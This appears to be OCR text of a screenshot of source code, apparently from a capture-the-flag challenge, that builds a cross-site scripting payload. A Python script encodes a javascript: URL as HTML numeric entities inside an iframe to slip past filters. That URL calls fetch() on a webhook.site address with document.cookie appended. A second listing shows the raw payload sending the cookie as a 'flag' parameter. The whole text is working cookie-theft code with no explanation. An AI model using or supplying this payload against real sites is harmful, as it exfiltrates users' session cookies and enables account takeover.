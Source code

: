 https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d

content = "javascript:fetch('https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d'+document.cookie).then((response) => {return response.json();}).catch((error) => {console.log('no');})"
result = "<iframe src=&#"
for i in content:
    result+=str(ord(i))
    result+=";&#"
result = result[:-3]+"><iframe>"
print(result)




javascript:
    fetch('https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d?\
           flag='+document.cookie).then((response) => 
           {return response.json();}).catch((error) => 
           {console.log('no');})
